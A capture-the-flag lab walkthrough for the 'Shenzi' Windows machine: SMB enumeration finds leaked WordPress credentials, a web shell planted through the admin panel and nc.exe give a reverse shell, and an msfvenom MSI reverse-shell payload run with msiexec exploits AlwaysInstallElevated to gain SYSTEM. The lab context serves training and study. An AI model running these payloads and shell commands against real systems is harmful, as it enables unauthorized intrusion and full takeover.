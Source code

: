 # Shenzi

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.201.55 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 13:46 +08
Nmap scan report for 192.168.201.55
Host is up (0.18s latency).
Not shown: 65520 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
5040/tcp  open  unknown
7680/tcp  open  pando-pub
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

Lots of ports here. FTP doesn't allow for anonymous access.&#x20;

### SMB Access --> WP Creds

`smbmap` shows that there are a few shares we can access:

```
$ smbmap -u guest -p '' -H 192.168.201.55            
[+] IP: 192.168.201.55:445      Name: 192.168.201.55                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        IPC$                                                    READ ONLY       Remote IPC
        Shenzi                                                  READ ONLY
```

The share had a few interesting files:

```
$ smbclient -U guest //192.168.201.55/Shenzi         
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu May 28 23:45:09 2020
  ..                                  D        0  Thu May 28 23:45:09 2020
  passwords.txt                       A      894  Thu May 28 23:45:09 2020
  readme_en.txt                       A     7367  Thu May 28 23:45:09 2020
  sess_klk75u2q4rpgfjs3785h6hpipp      A     3879  Thu May 28 23:45:09 2020
  why.tmp                             A      213  Thu May 28 23:45:09 2020
  xampp-control.ini                   A      178  Thu May 28 23:45:09 2020
```

`passwords.txt` contained some credentials to a Wordpress instance, while the rest of the files were rather uninteresting:&#x20;

```
$ cat passwords.txt
1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ] 

3) Mercury (not in the USB & lite version): 

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser  
   Password: wampp 

4) WEBDAV: 

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf
   
   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so  
   
   Please do not forget to refresh the WEBDAV authentification (users and passwords).     

5) WordPress:

   User: admin
   Password: FeltHeadwallWight357
```

### Web Enumeration --> WP RCE

Port 80 shows the default XAMPP page:

<figure><img src="../../../.gitbook/assets/image (1091).png" alt=""><figcaption></figcaption></figure>

There was a PHPInfo page that we could view for more clues.&#x20;

<figure><img src="../../../.gitbook/assets/image (1612).png" alt=""><figcaption></figcaption></figure>

The only interesting thing to note is that the user is named `shenzi` on the machine. We need to be finding this wordpress instance. However, all directory scans failed to find any instance of `wp-content` or `wp-admin`.&#x20;

I was stuck here for a while, until I visited `/shenzi` to test, and it worked!

<figure><img src="../../../.gitbook/assets/image (114).png" alt=""><figcaption></figcaption></figure>

With this, we can easily login to the admin panel and replace one of the PHP files with a web shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (2725).png" alt=""><figcaption></figcaption></figure>

Then, we can get a reverse shell by downloading `nc.exe` onto the machine and executing it:

<figure><img src="../../../.gitbook/assets/image (291).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### AlwaysInstallElevated --> SYSTEM

I ran `winPEAS.exe` to enumerate the machine for me. It picked up on AlwaysInstallElevated being misconfigured:

<figure><img src="../../../.gitbook/assets/image (175).png" alt=""><figcaption></figcaption></figure>

Using this, we can generate an MSI payload using `msfvenom` and run it on the system, which would give us a reverse shell as the SYSTEM user.&#x20;

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.191 LPORT=21 -f msi -o shell.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: shell.msi
```

Afterwards, transfer this file over to the machine and run `msiexec` on it:

```
C:\Windows\Tasks>msiexec /quiet /qn /i shell.msi
```

This would give us a reverse shell as the SYSTEM user on a listener port:

<figure><img src="../../../.gitbook/assets/image (2358).png" alt=""><figcaption></figcaption></figure>
